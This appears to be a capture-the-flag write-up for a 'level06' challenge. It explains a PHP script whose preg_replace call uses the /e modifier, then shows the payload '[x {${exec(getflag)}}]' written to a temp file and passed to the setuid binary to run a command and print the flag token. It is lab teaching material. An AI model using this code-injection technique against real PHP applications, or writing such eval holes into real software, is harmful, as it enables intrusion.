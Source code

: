 we have to file an executable and .php file:
we cat the php file:

#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>

in the first function we have:
The first preg_replace replaces any occurrence of a period (.) with the string " x ". The second preg_replace replaces any occurrence of the at symbol (@) with the string " y". Finally, the modified string $m is returned.

the Second one:
the content of a file specified by $y is read using file_get_contents and stored in the variable $a.
preg_replace with the pattern "/(\[x (.*)\])/e"  (for example: 'x jesuisunexemple')
to match and replace specific patterns within $a. The e modifier evaluates the replacement string as PHP code. In this case, it calls the y function with the captured group (\\2) as an argument. \\2 is a backreference to the second captured group in the pattern ((.*)), representing the content captured between the x and closing square bracket ( = jesuisunexemple).
two more preg_replace functions are used to replace opening square brackets ([) with opening parentheses (() and closing square brackets (]) with closing parentheses ()).

and then it print the result the result of x() function with two argvs.

we know that the modifier e will execute the php code given inside it. we need to pu the program inside the second captured group ('[x  exec]'):

echo '[x {${exec(getflag)}}]' > /tmp/execphp

then execute php:
./level06 /tmp/execphp nothing

you will get this:
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1